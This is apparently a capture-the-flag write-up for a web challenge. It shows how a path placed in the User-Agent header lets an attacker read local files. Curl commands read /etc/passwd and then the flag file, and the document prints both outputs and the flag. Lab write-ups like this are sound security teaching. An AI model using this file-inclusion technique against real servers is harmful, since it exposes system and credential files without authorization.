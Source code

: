 # i love browsers
```
I just love browsers! That's why I launched a discussion board about them. To avoid flame wars it's segregated though.

52.59.124.14:10009 
```

Visiting the website greets you with `Hello [your browser]!` message:
![](./images/i_love_browsers.png)

The only way the website would really know what browser we use is either through JavaScript (which the site doesn't have any) or through the User-Agent header the browser sends. Trying different values like `User-Agent: safari` also works, and if you play around with the possible values you'll notice that it only cares about the last word and ignores everything to the right of / (used to provide the browser version) if the last word contains that. Though if the user-agent has more than a single dot, it'll return an error:
```
└─$ curl -H "User-Agent: .." http://52.59.124.14:10009
<a href="https://xkcd.com/838/">This incident will be reported</a>  
```

And as two dots usually indicate going up in a directory, we can try an absolute path instead revealing that we're able to do LFI. Trying this with `/etc/passwd` will reveal us a hint of the flag's location:
```
└─$ curl -H "User-Agent: /etc/passwd" http://52.59.124.14:10009
<!DOCTYPE html>

<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Hello /etc/passwd user</title>
</head>
<body bgcolor="lightblue">
    <div align="center">
    <h1>Hello /etc/passwd user</h1>
    root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
#flag is in /app/FLAG.txt

    </div>
    <div style="height: 100px;">
        
    </div>
    <div align="center">
        <table id="data" class="table table-striped">
            <thead>
                <tr>
                    <th>Author</th>
                    <th>Comment</th>
                </tr>
            </thead>
            <tbody>
                
                <tr>
                    <td>testron</td>
                    <td>tata</td>
                </tr>
                
            </tbody>
        </table>
        <form action="/test" method="post">
            <table>
                <tr>
                    <td>Name:</td>
                    <td><input type="text" name="user"></td>
                </tr>
                <tr>
                    <td>Comment:</td>
                    <td><textarea style="height:100px;" type="text" name="comment"></textarea></td>
                </tr>
            </table>
            <input type="submit">
        </form>
    </div>
</body>
</html>

└─$ curl -H "User-Agent: /app/FLAG.txt" http://52.59.124.14:10009
<!DOCTYPE html>

<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Hello /app/FLAG.txt user</title>
</head>
<body bgcolor="lightblue">
    <div align="center">
    <h1>Hello /app/FLAG.txt user</h1>
    ENO{Why,os.path,why?}

    </div>
    <div style="height: 100px;">
        
    </div>
    <div align="center">
        <table id="data" class="table table-striped">
            <thead>
                <tr>
                    <th>Author</th>
                    <th>Comment</th>
                </tr>
            </thead>
            <tbody>
                
                <tr>
                    <td>testron</td>
                    <td>tata</td>
                </tr>
                
            </tbody>
        </table>
        <form action="/test" method="post">
            <table>
                <tr>
                    <td>Name:</td>
                    <td><input type="text" name="user"></td>
                </tr>
                <tr>
                    <td>Comment:</td>
                    <td><textarea style="height:100px;" type="text" name="comment"></textarea></td>
                </tr>
            </table>
            <input type="submit">
        </form>
    </div>
</body>
</html> 
```

Flag: `ENO{Why,os.path,why?}`